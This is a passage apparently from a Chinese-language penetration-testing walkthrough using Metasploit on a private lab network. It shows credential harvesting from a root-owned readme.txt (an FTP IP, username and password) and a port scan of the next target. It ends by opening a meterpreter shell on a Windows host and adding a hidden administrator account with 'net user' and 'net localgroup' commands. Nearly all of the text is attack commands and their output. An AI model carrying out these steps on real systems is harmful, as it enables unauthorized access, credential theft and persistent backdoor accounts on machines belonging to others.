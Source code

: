 ```
          collisions:0 txqueuelen:1000
          RX bytes:1105355 (1.1 MB)  TX bytes:672700 (672.7 KB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:192 errors:0 dropped:0 overruns:0 frame:0
          TX packets:192 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:14456 (14.4 KB)  TX bytes:14456 (14.4 KB)

ls -l /root
total 4
-rw------- 1 root root 84 May 25 10:10 readme.txt
```

利用上面获得的root权限的meterpreter session，我意外的发现了一个有趣的文件`/root/readme.txt`，其中包含了一个远程FTP(10.0.1.26)的口令和密码。
```
cat /root/readme.txt
Credentials for FTP:
- IP: 10.0.1.26
- User: ftpadmin
- Password: nKG6aqwvveFutn$@
```
既然拿到了这个信息，我们不妨再次探测一下我们的下一个目标(10.0.1.26)。
```
msf exploit(handler) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > set RHOSTS 10.0.1.26
RHOSTS => 10.0.1.26
msf auxiliary(tcp) > set threads 50
threads => 50
msf auxiliary(tcp) > set PORTS 1-1025,1433,3306,3389
PORTS => 1-1025,1433,3306,3389
msf auxiliary(tcp) > run

[+] 10.0.1.26:            - 10.0.1.26:21 - TCP OPEN
[+] 10.0.1.26:            - 10.0.1.26:80 - TCP OPEN
[+] 10.0.1.26:            - 10.0.1.26:139 - TCP OPEN
[+] 10.0.1.26:            - 10.0.1.26:135 - TCP OPEN
[+] 10.0.1.26:            - 10.0.1.26:445 - TCP OPEN
[+] 10.0.1.26:            - 10.0.1.26:443 - TCP OPEN
[+] 10.0.1.26:            - 10.0.1.26:3306 - TCP OPEN
[+] 10.0.1.26:            - 10.0.1.26:3389 - TCP OPEN
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
果不其然，目标机（10.0.1.26）确实存在一个FTP站点。进入上面获得的`session 2`,在目标机10.0.0.9(10.0.1.9)上添加一个管理员账号:
```
msf auxiliary(tcp) > sessions 2
[*] Starting interaction with 2...

meterpreter > shell
Process 1116 created.
Channel 147 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>net user test 1qazxsw2@ /add
net user test 1qazxsw2@ /add
The command completed successfully.

C:\Windows\system32>net localgroup administrators test /add
net localgroup administrators test /add
```